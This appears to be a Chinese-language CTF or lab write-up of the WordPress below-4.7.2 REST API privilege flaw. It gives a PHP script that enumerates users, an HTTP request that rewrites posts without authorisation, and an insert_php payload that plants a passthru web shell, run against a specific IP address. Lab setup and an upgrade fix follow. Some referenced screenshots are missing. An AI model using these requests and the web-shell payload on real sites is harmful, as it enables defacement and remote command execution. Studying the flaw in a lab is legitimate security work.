

# 
Wordpress < 4.7.2 ue+ci+getshell
 #

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于WordPress 4.7.0以后默认开启REST API ，REST API使用户可以以简单的JSON格式访问wordpress的数据，包括用户名、文章内容等。重点是可以通过该功能越权修改任意内容，在使用insert php插件的时候可以导致被getshell。
* 影响版本： wordpress < 4.7.2
* getshell条件: 
	* 开启REST API
	* 安装插件insert php

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;WordPress是一个注重美学、易用性和网络标准的个人信息发布平台。

&emsp;&emsp;该漏洞主要的产生原因是WordPress REST API权限控制不严格。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先看UE(用户名遍历)漏洞的exploit  
	
	#!usr/bin/php
	<?php
	header ('Content-type: text/html; charset=UTF-8');
	  
	$url= "http://localhost/";
	$payload="wp-json/wp/v2/users/";
	$urli = file_get_contents($url.$payload);
	$json = json_decode($urli, true);
	if($json){
	    echo "*-----------------------------*\n";
	foreach($json as $users){
	    echo "[*] ID :  |" .$users['id']     ."|\n";
	    echo "[*] Name: |" .$users['name']   ."|\n";
	    echo "[*] User :|" .$users['slug']   ."|\n";
	    echo "\n";
	}echo "*-----------------------------*";} 
	else{echo "[*] No user";}
	?>

&emsp;&emsp;通过exploit可知它是通过REST API遍历用户名`http://218.2.197.238:22165/wp-json/wp/v2/users`

首先进入读取用户信息的函数的代码`wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php`，从代码可以看出要得到这个函数的true值才能获取用户信息。。

当我们请求漏洞链接的时候看看几个值是多少  

也就是当请求`http://218.2.197.238:22165/wp-json/wp/v2/users`时$reqeusts分别是null、view、name，显然该函数没有起到控制权限的效果，就导致了用户名被获取：

第二看一下修改文章内容漏洞，首先查看网站的页面，有两篇文章：  

请求`http://218.2.197.238:22165/wp-json/wp/v2/posts`是得到所有提交的文章相关json信息,id表示文章id，author就是提交的账户id，content是文章的内容：  

接下来我们尝试更改文章内容，请求`http://ip:port/wp-json/wp/v2/posts`正常请求包：  

再来更改请求包内容：  

到首页看看内容，确实内容被更改了，这里只改了id为1的文章，如果要更改其他文章内容可以通过请求`http://218.2.197.238:22165/wp-json/wp/v2/posts/id`方式获得：  

更改另一个文章的内容，并访问首页看php代码是否执行：  

	POST /wp-json/wp/v2/posts/9?id=9q HTTP/1.1	
	Content-Type: application/json
	{
	"content":"[insert_php]phpinfo();[/insert_php]"
	}

这里php执行要求wordpress安装了插件insert php（允许wordpress页面执行php代码），更改数据包拿flag：  

	{
	"content":"[insert_php]passthru($_GET['bash']);[/insert_php]"
	}

## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本wordpress(4.7.0或者4.7.1因为默认开启REST API)  

### 4.2&emsp;安装和配置wordpress ###

* 在Linux下直接安装Apache+php5环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，在浏览器直接访问服务器地址，进入安装页面。配置好wordpress需要的环境
* apache的rewrite模块加载
	* sudo a2enmod rewrite
	* 将/etc/apache2/sites-enabled/000-default.conf文件和Apache配置文件里面的 AllowOverride None 改成 AllowOverride All
	* 重启apache2服务  

### 4.3&emsp;漏洞复现（getshell） ###

1.访问wordpress 4.7.1网站  

2.访问ip:port//wp-json/wp/v2/posts列出所有文章id，这里是1和9.

3.访问ip:port//wp-json/wp/v2/posts用burp抓包，改包。

## 5.&emsp;修复意见 ##

&emsp;&emsp;升级wordpress到最新版本  
